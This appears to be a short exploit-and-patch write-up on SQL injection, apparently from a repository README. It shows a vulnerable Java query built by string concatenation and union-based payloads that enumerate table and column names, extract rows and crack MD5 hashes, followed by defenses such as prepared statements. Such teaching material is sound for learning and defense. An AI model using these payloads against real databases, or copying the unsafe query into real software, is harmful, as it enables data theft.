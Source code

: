 🚨 **EXPLOIT**

#### SQL injection

Example of unsafe query constructed with concatenation of user input :

`String query = "SELECT \* FROM accounts WHERE custID='" + request.getParameter("id") + "'";`

#### Steps

1. Find the Database system

- We can find it easily here with the input "'" that tells us the system is MariaDB.

2. Find the number of columns returned from the original query

- `1 ORDER BY X` Keep increasing `X` until an error is caused.

3. Use Union to find the

=> tables names

`1 UNION SELECT NULL, table_name FROM information_schema.tables--`

=> columns names
`1 UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name=X`

Where X is converted in hex to avoid any filtering and any issue with the character "'".

4. Extract important information (the number of columns must match the original query)

`1 UNION SELECT a,b FROM C`

5. Decrypt from MD5

---

✅ **PATCH**

- Use prepared statements
- Use a safe API with a parameterized interface
- Sanitize the input server side (if a number is expected, only accept numbers, escape special characters like " ' , etc...")
- Use PDO in **php** or mysql_real_escape_string to prevent sql injection.
